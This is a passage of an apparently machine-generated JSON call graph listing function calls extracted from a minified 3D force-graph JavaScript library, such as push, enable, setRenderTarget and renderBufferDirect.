"static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexShaderID"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderStage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFragmentShaderID"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderStage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderCacheForMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getShaderStage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMaxPrecision"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getVertexShaderID"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFragmentShaderID"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransfer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "customProgramCacheKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disableAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disableAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addScaledVector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "identity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "premultiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "extractRotation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "float"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBATo2Half"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unpackRGBAToDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pack2HalfToRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onAfterShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": 